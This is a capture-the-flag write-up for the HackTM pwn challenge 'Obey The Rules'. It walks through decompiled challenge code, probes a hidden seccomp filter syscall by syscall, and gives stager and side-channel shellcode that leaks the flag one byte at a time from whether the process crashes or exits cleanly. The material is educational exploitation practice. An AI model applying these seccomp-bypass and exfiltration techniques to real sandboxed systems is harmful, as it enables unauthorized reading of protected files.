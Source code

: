 # **Obey The Rules**

#### tag : pwn(445p)

-----------------------------------------------

#### Description

>The government has released a new set of rules. Do you choose to be among those who follow them blindly or among those who read them first?

>Flag Path: /home/pwn/flag.txt

>Author: FeDEX

>Remote: nc 138.68.67.161 20001

-----------------------------------------------

#### Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int16 v4; // [rsp+10h] [rbp-80h]
  void *v5; // [rsp+18h] [rbp-78h]
  char s; // [rsp+20h] [rbp-70h]
  unsigned __int64 v7; // [rsp+88h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init_proc(*(_QWORD *)&argc, argv, envp);
  memset(&s, 0, 0x64uLL);
  open_read_file("header.txt", 100LL, &s);
  puts(&s);
  open_read_file("description.txt", 800LL, &description);
  printf("\n    %s\n  ", &description);
  puts(" >> Do you Obey? (yes / no)");
  read(0, &answer, 0xBuLL);
  v4 = (signed int)open_read_file("RULES.txt", 150LL, &rules) >> 3;
  v5 = &rules;
  if ( prctl(38, 1LL, 0LL, 0LL, 0LL) < 0 )
  {
    perror("prctl(PR_SET_NO_NEW_PRIVS)");
    exit(2);
  }
  if ( prctl(22, 2LL, &v4) < 0 )
  {
    perror("prctl(PR_SET_SECCOMP)");
    exit(2);
  }
  if ( !strcmp(&answer, "Y") )
    set_context(&answer, "Y");
  else
    system("/bin/sh");
  return 0;
}
```
Challenge make seccomp rule from `RULES.txt` in server, so that we can't check seccomp rule by `seccomp-tools`.

```c
  v4 = (signed int)open_read_file("RULES.txt", 150LL, &rules) >> 3;
  v5 = &rules;
  if ( prctl(38, 1LL, 0LL, 0LL, 0LL) < 0 )
  {
    perror("prctl(PR_SET_NO_NEW_PRIVS)");
    exit(2);
  }
  if ( prctl(22, 2LL, &v4) < 0 )
  {
    perror("prctl(PR_SET_SECCOMP)");
    exit(2);
  }
```

After seccomp rule released, we can execute 0xb byte shellcode in `set_context()` if 2 byte of shellcode is 'Y\x00'. Otherwise we can call system("/bin/sh"), but this is banned by seccomp rule. It return bad system call. So we use `set_context()`.

```c
  ...
  read(0, &answer, 0xBuLL);
  ...
  seccomp routine here
  ...
  if ( !strcmp(&answer, "Y") )
    set_context();
  else
    system("/bin/sh");
  ...

__int64 set_context()
{
  *(&answer + strlen(&answer)) = 89;
  strcpy(region, &answer);
  return ((__int64 (__fastcall *)(signed __int64, char *))region)(1337LL, &answer);
}
```

First of all, I checked seccomp rule in server. I made shellcode that call each syscall and got server's response. `ALLOW` syscall return `Segfault` but `KILL` syscall return `Bad system call`. Here is my check code [check.py](./check.py).

```
mov al, n (n=0~0xff)
syscall
```

This is result of `check.py`. There are only 3 syscall available. We have to solve this challenge using `read`, `open`, `exit`.

```
0 ok
1 bad
2 ok
...
60 ok
...
```

There is no way to print data from server, So we have to use `error-based shellcode` which that use reaction of server. In the case, we can use server's seccomp reaction. If we call bad syscall, server return `Bad system call`, but using `exit` which is allowed, server return normally.

So, we open flag.txt and compare byte one by one. And if it's correct ascii byte, jmp to exit syscall or not jmp to bad syscall. So that we can know flag's byte.

Here is pseudocode. It's form that we have to make in shellcode.

```
fd = open("/home/pwn/flag.txt");
read(fd, buf, 0x100);
for(int i=0; i<0x100; i++) {
  for(int j=0; j<0xff; j++) {
    if(buf[i] == j) {
      exit(0);
    }
    else {
      syscall(); // whatever except for read, open, exit
    }
  }
}

```

Before that, we have to read more byte. 0xb byte is not enough to work like upper pseudocode. So, we use this 0xb shellcode to read more byte.

Fortunately, at the point of execution of shellcode, value of rsp contain &shellcode which is mapped as `region` and rdx is big trash value. So just set rdi to 0(stdin) and pop `region`'s address to rsi, then call read.

```
pop rcx ; Y(prefix)
pop rcx ; Y(prefix)
xor di, di
pop rsi
xor eax, eax
syscall
```

Great, We can call read(0, region[&shellcode], n). Putting second shellcode with 0x10 byte dummy, we can run new shellcode continuosly. 

After reading new shellcode, mabye find something weird(bad syscall retunred from read(3,buf,n)) when read flag after open. Yes, server's seccomp rule have open's A0 comparing.

So we can guess server's seccomp rule like:

```
scmp_filter_ctx ctx;
ctx = seccomp_init(SCMP_ACT_KILL);

seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 1, SCMP_CMP_NE(3));
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);

seccomp_load(ctx);
seccomp_release(ctx);
```

Well, just open flag.txt one more time, then 4 is allcated as fd. Here is psuedo shellcode that comparing flag one by one.

```
open('/home/pwn/flag.txt')
open('/home/pwn/flag.txt')
read(4, 'rsp', 0x100)
mov rax, [rsp+i]          ; i is index of flag
cmp al, j                 ; j is byte of flag
je good
xor eax, eax
mov al, 59 
syscall                   ; call execve(bad syscall)
good:
xor eax, eax
mov al, 60
syscall                   ; call exit
```

Here is my last exploit code, [solve.py](./solve.py).

**HackTM{kn0w_th3_rul3s_we11_s0_y0u_c4n_br34k_th3m_EFFECTIVELEY}**